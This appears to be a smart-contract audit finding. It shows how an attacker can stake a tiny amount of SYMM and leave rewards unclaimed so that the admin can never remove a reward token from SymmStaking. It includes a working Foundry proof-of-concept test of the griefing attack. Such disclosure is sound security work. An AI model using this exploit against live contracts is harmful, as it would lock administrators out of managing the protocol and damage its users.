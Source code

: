 Ancient Cinnamon Hawk

Medium

# Attacker Stakes a Minimal Amount to Prevent `REWARD_MANAGER_ROLE` from Removing a Reward Token


## Root Cause

An attacker by staking a very small amount of the staking token (SYMM) for a very short period and then never withdrawing those rewards, can cause the `pendingReward` for the reward token to exceed the threshold of `10` (11 is sufficient).

As a result, the following [check](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L320) in the [configureRewardToken()](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L312) function always reverts:

```javascript
if (pendingRewards[token] > 10) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
```

## Recommended Mitigation

Remove the check.

## Summary

The amount of rewards a user earns is calculated based on the quantity of staked tokens and the duration of the stake.

The `configureRewardToken()` function is used to whitelist/blacklist a token as a reward token.

An attacker can stake a minimal amount for a very short period to accumulate `11` units of reward tokens, then unstake without ever withdrawing those rewards.

Consequently, the admin will be permanently prevented from blacklisting and removing that whitelisted token because the check in the `configureRewardToken()` function will always revert:

```javascript
function configureRewardToken(address token, bool status) external onlyRole(REWARD_MANAGER_ROLE) {
    // ...
    if (!status) {
@>      if (pendingRewards[token] > 10) revert OngoingRewardPeriodForToken(token, pendingRewards[token]);
    // ...
    } else {
    // ...
    }
    // ...
}
```

## Impact

The admin will be unable to blacklist a whitelisted token if needed.

## POC

```javascript

// SPDX-License-Identifier: MIT
pragma solidity >=0.8.18;




// ============= Imports ============= //
//
import   {    Test, console   }   from   "forge-std/Test.sol";
import   {    SymmStaking     }   from   "../src/staking/SymmStaking.sol";
import   {    Symmio          }   from   "../src/token/symm.sol";
import   {    MockERC20       }   from   "lib/solmate/src/test/utils/mocks/MockERC20.sol";


// ============= Notes ============= //
//
// - change symm.sol solidity version to 0.8.18 so it compiles if you're encountring issues.
// - install solmate library, we're going to need to create mock usdc contract

contract SymmStakingTest is Test {

    
    address admin      =   makeAddr("admin");
    address stakingToken;

    // reward token is USDC (6 decimals)
    address usdc;

    // symmStaking contract
    SymmStaking symmStaking;


    address attacker = makeAddr("attacker");


    function setUp() external {
        vm.startPrank(admin);

                // 1. initialize SymmStaking Contract
                _initializeSymmstaking();

                // 2. add USDC to SymmStaking reward tokens list
                _addRewardToken();

                // 3. deposit rewards into staking contract
                _depositRewards();

                // 4. mint Symm Tokens to attacker
                _mintSymmTokens();

        vm.stopPrank();
    }


    // run the test with: forge test --match-test test_attack --fork-url https://base-rpc.publicnode.com  -vvv
    function test_attack() public {

        // 1. attacker stakes 
        _attackerDepositsSymmTokens();

        // 2. 1 minutes passes
        skip(1 minutes);

        // 3. attacker withdraws staked tokens
        _attackerWithdrawsStakedTokens();

        // 4. admin tries to remove usdc from reward tokens list but can't
        _adminRemoveTokenFromRewardTokensList();

    }
    

    // ============= Following Functions Below, are used to demonstrate the attack ============= //

    function _attackerDepositsSymmTokens() internal {
        vm.startPrank(attacker);

                // 1. attacker, deposits 10 units of SYMM Tokens to staking contract
                Symmio(stakingToken).approve(address(symmStaking), 10);
                symmStaking.deposit(10, attacker);

        vm.stopPrank();
    }


    function _attackerWithdrawsStakedTokens() internal {
        vm.startPrank(attacker);

                // 1. withdraw tokens and log how much rewards have attacker earned in 1 minute
                symmStaking.withdraw(10, attacker);

        console.log("This is the amount of rewards that the attacker has earned in just one minute: ", symmStaking.rewards(attacker, usdc));
        console.log("This is just enough to prevent the admin from removing the reward token from the array.");
        vm.stopPrank();
    }


    function _adminRemoveTokenFromRewardTokensList() internal {
        vm.startPrank(admin);
        vm.expectRevert();

                // 1. admin tries to remove usdc from reward tokens list
                symmStaking.configureRewardToken(usdc, false);

        console.log("As we can see, the admin is unable to remove the reward token from the array, and the attacker has no intention of withdrawing those rewards.");
        vm.stopPrank();
    }

    // ============= Following Functions Below, are used to setUp SymmStaking Contract ============= //

    function _initializeSymmstaking() internal {

        // 1. deploy and set staking token. also grant minter role to admin.
        stakingToken = address(new Symmio("Symmio", "SYMM", admin));
        Symmio(stakingToken).grantRole(keccak256("MINTER_ROLE"), admin);

        // 2. initialize SymmStaking contract
        symmStaking = new SymmStaking();
        symmStaking.initialize(admin, stakingToken);

    }

    function _addRewardToken() internal {

        // 1. deploy usdc mock contract
        usdc = address(new MockERC20("USDC", "USDC", 6));

        // 2. add usdc to symmStaking contract reward tokens list
        symmStaking.configureRewardToken(usdc, true);

    }

    function _depositRewards() internal {

        // 1. mint some amount of usdc to admin
        MockERC20(usdc).mint(admin, 10_000e6);

        // 2. deposit rewards (usdc) into symmStaking contract
        address[] memory token    =   new address[](1);
        uint256[] memory amount   =   new uint256[](1);

        token[0]  =  usdc;
        amount[0] =  10_000e6;

        MockERC20(usdc).approve(address(symmStaking), 10_000e6); // $10k reward in usdc


        symmStaking.notifyRewardAmount(token, amount);
        
    }

    function _mintSymmTokens() internal {
        // 1. mint 10 units of symm tokens attacker
        Symmio(stakingToken).mint(attacker, 10);
    }

}
```